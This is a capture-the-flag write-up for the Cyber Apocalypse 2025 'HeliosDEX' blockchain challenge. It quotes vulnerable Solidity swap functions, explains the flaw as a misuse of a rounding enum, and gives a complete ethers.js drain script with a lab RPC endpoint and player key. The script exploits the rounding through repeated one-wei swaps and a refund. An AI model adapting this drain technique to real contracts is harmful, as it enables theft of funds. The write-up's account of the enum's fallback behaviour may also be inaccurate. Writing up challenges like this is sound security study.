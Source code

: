 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | HeliosDEX Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: HeliosDEX
tags: "blockchain, starry, solidity"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>

## HeliosDEX
> Solved by Starry-Lord

We have a `Setup.sol` and a HeliosDEX.sol to review. In HeliosDEX.sol this flaw was found:


    function swapForELD() external payable underHeliosEye {
            uint256 grossELD = Math.mulDiv(msg.value, exchangeRatioELD, 1e18, Math.Rounding(0));
            uint256 fee = (grossELD * feeBps) / 10_000;
            uint256 netELD = grossELD - fee;
    
            require(netELD <= reserveELD, "HeliosDEX: Helios grieves that the ELD reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveELD -= netELD;
            eldorionFang.transfer(msg.sender, netELD);
    
            emit HeliosBarter(address(eldorionFang), msg.value, netELD);
        }
    
        function swapForMAL() external payable underHeliosEye {
            uint256 grossMal = Math.mulDiv(msg.value, exchangeRatioMAL, 1e18, Math.Rounding(1));
            uint256 fee = (grossMal * feeBps) / 10_000;
            uint256 netMal = grossMal - fee;
    
            require(netMal <= reserveMAL, "HeliosDEX: Helios grieves that the MAL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
    
            reserveMAL -= netMal;
            malakarEssence.transfer(msg.sender, netMal);
    
            emit HeliosBarter(address(malakarEssence), msg.value, netMal);
        }
    
        function swapForHLS() external payable underHeliosEye {
            uint256 grossHLS = Math.mulDiv(msg.value, exchangeRatioHLS, 1e18, Math.Rounding(3)); <----- That's the issue here
            uint256 fee = (grossHLS * feeBps) / 10_000;
            uint256 netHLS = grossHLS - fee;
            
            require(netHLS <= reserveHLS, "HeliosDEX: Helios grieves that the HSL reserves are not plentiful enough for this exchange. A smaller offering would be most welcome");
            
    
            reserveHLS -= netHLS;
            heliosLuminaShards.transfer(msg.sender, netHLS);
    
            emit HeliosBarter(address(heliosLuminaShards), msg.value, netHLS);
        }

According to OpenZeppelin’s documentation for the Math Library:


    enum Rounding {
        Down, // Toward negative infinity --> Math.Rounding(0)
        Up, // Toward infinity --> Math.Rounding(1)
        Zero // Toward zero --> Math.Rounding(2)
    }

This means Math.Rounding(3) will cause unexpected behaviors, here are the key points:
Since `3` isn't defined, the compiler treats it as an undefined value, falling back to default rounding behavior which is **Up** [**🎉🎉🎉**](https://emojipedia.org/party-popper)

This rounding made me rich after 250 swaps! Just had to make sure to only swap 1 Wei each time and call the refund function once only, as per the contracts.


![](https://i.imgur.com/Kjig6bi.png)



`drain.js script`


    const { ethers } = require("ethers");
    
    // Your setup info
    const RPC_URL = "http://94.237.57.122:59310";
    const PLAYER_PRIVATE_KEY = "0xc355db294444232fe7a8e308550e87f2f79c617b7f04541d2f44348235dbf133";
    const PLAYER_ADDRESS = "0xF44279bF0072cd7BD98F4b994d3E7ad7ed15Cd45";
    
    // Contracts
    const SETUP_ADDRESS = "0xD05A41b677783bAB39B68499F8f11f8066A61545";
    
    const SETUP_ABI = [
      "function isSolved() public view returns (bool)",
      "function TARGET() public view returns (address)"
    ];
    
    const HELIOS_DEX_ABI = [
      "function swapForHLS() external payable",
      "function oneTimeRefund(address item, uint256 amount) external",
      "function heliosLuminaShards() external view returns (address)",
      "function hasRefunded(address user) external view returns (bool)"
    ];
    
    const ERC20_ABI = [
      "function approve(address spender, uint256 amount) external returns (bool)",
      "function balanceOf(address account) external view returns (uint256)"
    ];
    
    async function main() {
      const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
      const wallet = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    
      const setupContract = new ethers.Contract(SETUP_ADDRESS, SETUP_ABI, wallet);
      const targetAddress = await setupContract.TARGET();
      const dex = new ethers.Contract(targetAddress, HELIOS_DEX_ABI, wallet);
    
      const hlsAddress = await dex.heliosLuminaShards();
      const hlsToken = new ethers.Contract(hlsAddress, ERC20_ABI, wallet);
    
      console.log(`Connected to HeliosDEX at: ${targetAddress}`);
    
      // Exploit: repeatedly swap very small ETH amounts to get HLS due to faulty rounding
      const exploitValue = ethers.utils.parseUnits("1", "wei"); // smallest possible ETH amount
      const iterations = 250; // Do multiple swaps to accumulate tokens efficiently
    
      console.log(`Starting exploit with ${iterations} swaps of 1 wei each...`);
      for (let i = 0; i < iterations; i++) {
        const txSwap = await dex.swapForHLS({ value: exploitValue });
        await txSwap.wait();
        console.log(`Swap #${i + 1} completed.`);
      }
    
      // Check accumulated HLS balance
      const hlsBalance = await hlsToken.balanceOf(PLAYER_ADDRESS);
      console.log(`Accumulated HLS balance: ${ethers.utils.formatUnits(hlsBalance, 18)} HLS`);
    
      // Approve the DEX to spend tokens
      const approveTx = await hlsToken.approve(targetAddress, hlsBalance);
      await approveTx.wait();
      console.log("Approved DEX to spend HLS tokens.");
    
      // Perform refund once to gain ETH
      const hasRefunded = await dex.hasRefunded(PLAYER_ADDRESS);
      if (!hasRefunded) {
        const refundTx = await dex.oneTimeRefund(hlsAddress, hlsBalance, { gasLimit: 1000000 });
        await refundTx.wait();
        console.log("Refund executed successfully.");
      } else {
        console.log("Refund already executed previously.");
      }
    
      const playerBalance = await provider.getBalance(PLAYER_ADDRESS);
      console.log(`Final player's ETH balance: ${ethers.utils.formatEther(playerBalance)} ETH`);
    
      const solved = await setupContract.isSolved();
      if (solved) {
        console.log("Challenge Solved! Player has 20 ETH or more.");
      } else {
        console.log("Not solved yet, consider increasing iterations.");
      }
    }
    
    main().catch((error) => {
      console.error("Error during exploit execution:", error);
    });
    



